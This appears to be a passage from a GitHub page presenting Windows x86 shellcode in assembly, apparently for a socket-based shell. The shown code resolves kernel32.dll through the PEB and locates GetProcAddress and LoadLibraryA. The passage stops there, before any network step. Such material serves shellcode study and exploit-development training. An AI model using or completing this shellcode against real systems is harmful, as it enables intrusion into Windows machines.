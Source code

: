 ```s``` is a descriptor identifying an unconnected socket.<br>
The comments in the code help understand how it works:<br>

```assembly
global _start

section .text
_start:


getkernel32:
	xor ecx, ecx                ; zeroing register ECX
	mul ecx                     ; zeroing register EAX EDX
	mov eax, [fs:ecx + 0x030]   ; PEB loaded in eax
	mov eax, [eax + 0x00c]      ; LDR loaded in eax
	mov esi, [eax + 0x014]      ; InMemoryOrderModuleList loaded in esi
	lodsd                       ; program.exe address loaded in eax (1st module)
	xchg esi, eax				
	lodsd                       ; ntdll.dll address loaded (2nd module)
	mov ebx, [eax + 0x10]       ; kernel32.dll address loaded in ebx (3rd module)

	; EBX = base of kernel32.dll address

getAddressofName:
	mov edx, [ebx + 0x3c]       ; load e_lfanew address in ebx
	add edx, ebx				
	mov edx, [edx + 0x78]       ; load data directory
	add edx, ebx
	mov esi, [edx + 0x20]       ; load "address of name"
	add esi, ebx
	xor ecx, ecx

	; ESI = RVAs

getProcAddress:
	inc ecx                             ; ordinals increment
	lodsd                               ; get "address of name" in eax
	add eax, ebx				
	cmp dword [eax], 0x50746547         ; GetP
	jnz getProcAddress
	cmp dword [eax + 0x4], 0x41636F72   ; rocA
	jnz getProcAddress
	cmp dword [eax + 0x8], 0x65726464   ; ddre
	jnz getProcAddress

getProcAddressFunc:
	mov esi, [edx + 0x24]       ; offset ordinals
	add esi, ebx                ; pointer to the name ordinals table
	mov cx, [esi + ecx * 2]     ; CX = Number of function
	dec ecx
	mov esi, [edx + 0x1c]       ; ESI = Offset address table
	add esi, ebx                ; we placed at the begin of AddressOfFunctions array
	mov edx, [esi + ecx * 4]    ; EDX = Pointer(offset)
	add edx, ebx                ; EDX = getProcAddress
	mov ebp, edx                ; save getProcAddress in EBP for future purpose

getLoadLibraryA:
	xor ecx, ecx                ; zeroing ecx
	push ecx                    ; push 0 on stack
	push 0x41797261             ; 
	push 0x7262694c             ;  AyrarbiLdaoL
	push 0x64616f4c             ;
	push esp
	push ebx                    ; kernel32.dll
```